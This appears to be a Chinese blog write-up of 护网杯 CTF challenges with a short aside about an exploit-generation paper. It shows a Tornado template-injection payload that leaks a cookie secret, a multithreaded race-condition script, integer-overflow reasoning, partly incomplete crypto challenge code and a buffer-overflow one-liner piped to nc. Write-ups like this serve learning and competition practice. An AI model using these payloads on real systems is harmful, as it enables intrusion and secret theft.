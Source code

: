 ## 0x01 Paper

《Automatic Exploit Generation for Buffer Overflow Vulnerabilities》2018 IEEE International Conference on Software Quality

IEEE会议的文章也可以这么水？？？

AEG当然都是先找漏洞然后在exploit，感觉一般都是缓冲区溢出的多
额，还是忍不住diss

[未完待续]

## 0x02 护网杯

菜🐔

#### 1. web - easy tornado

题目给了三个链接：

hint.txt 
md5(cookie_secret + md5(filename))
hint.txt  b71a752e4d5388b9e3ab2dc1aebd8f21 9222bc1559ca9869cf9bd1eb651a9bc8

Orz.txt 
render()
Orz.txt 3ce480777eef4e1a694d678c8deb19fa 1f7f8b9a4759b67b66b9d02cbaaec4e0

flag.txt 
/fllllllllllag  
flag.txt 159df48875627e2f7f66dae584c5e3a5 e978ea3d6b7018e27f762ba225ba338f

保错链接：/error?msg=%E7%AD%BE%E5%90%8D%E9%94%99%E8%AF%AF

msg存在模版注入，然而过滤了`',(,_`等，想找想`config`这样的关键字，未果。。。想想如果要是全部功能的SSTI就不用涉及提示中的md5了，所以就是读取配置文件获取cookie_secret。。。然后跑偏了到了Python沙盒逃逸，之后开始翻tornado文档，试了试一些关键字，终于找到了

> RequestHandler.settings
> An alias for self.application.settings.

啊嘿～~`http://117.78.26.114:32389/error?msg={{%20handler.settings%20}}`，出来～～

> Whoops, looks like somethings went wrong . 
> {'login_url': '/login', 'template_path': 'templates', 'xsrf_cookies': True, 'cookie_secret': 's+Ke}?WMqHuoN${fRYjhDS1)k[lxgAwyO&V^_T<d@Up-QC!iGaItP.b3*%E]>#L0', 'debug': False, 'file_path': '/www/static/files', 'static_path': 'static'}

模版注入相关：

[websitesVulnerableToSSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI)
[server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)


#### 2. web - ltshop

第一感觉是竞争，然后burp跑了一下最多获得8个大辣条，换不了几个辣条之王就更别说换flag了。要跑几千万个大辣条？？？

嗯，然后看了WP。。。兑换辣条之王时有溢出，当时只是测了`-1`，额秀逗了，以为自己测过溢出。。。

是个uint64的整数，范围0-18446744073709551615。后台的检测应该是"5*兑换的数量?<已有"，所以兑换数量为3689348814741910324时，发生溢出，成功兑换，也就有个兑换flag的辣条之王。

附一个多线程的代码：

```python

import multiprocessing
from requests.exceptions import RequestException
from requests.adapters import HTTPAdapter
import re, os, json, requests, time
import traceback

def main():
    url = 'http://117.78.26.114:30805/buylt'
    cookie = 'b7bc3d53-1291-420c-8745-0075fbebda2c'
    headers = {'Cookie':'go_iris_cookie='+ cookie}
    k = requests.post(url,headers=headers)
    print k.content

if __name__ == '__main__':
    results = []
    pool = multiprocessing.Pool(processes=20)
    for i in range(0xff):
        results.append(pool.apply_async(main,))
    pool.close()
    pool.join()
```

#### 3. crypto - FEZ

源码：

```python
import os
def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
def f(x,k):
    return xor(xor(x,k),7)
def round(M,K):
    L=M[0:27]
    R=M[27:54]
    new_l=R
    new_r=xor(xor(R,L),K)
    return new_l+new_r

def unround(M, K):

def fez(m,K):
    for i in K:
        m=round(m,i)
    return m

K=[]
for i in range(7):
    K.append(os.urandom(27))
print K
m=open("flag","rb").read()
assert len(m)<54
m+=os.urandom(54-len(m))

test=os.urandom(54)
#test = "0b7361c8143e5935f9f5be3949cc07ed7a5ba6f258ebd91f29c5a7d16976f8dfb7fa422a6167281e573d015cc6d995841d5cab07923c".decode("hex")
print test.encode("hex")
print fez(test,K).encode("hex")
print fez(m,K).encode("hex")

```

手动算一算，加密流程就是穿进54位，前27位为A，后27位为B，最后生成新的54位，前27位是A^X，后27位是A^B^Y，其中XY是K中几项的运算结果，可以推出XY的值，然后就可以得到结果。。。

#### 3. Pwn - gettingstart

额呵？我是二进制选手？？？只水了一道最简单的。其中又一个判断变量是否等于0.1，之后自己手动写了一个反汇编看一下数据的表示。

```python
(python -c "print 'A' * 24 + '\xff\xff\xff\xff\xff\xff\xff\x7f' + '\x9a\x99\x99\x99\x99\x99\xb9\x3f'";cat -) | nc 117.78.26.19 30838
```

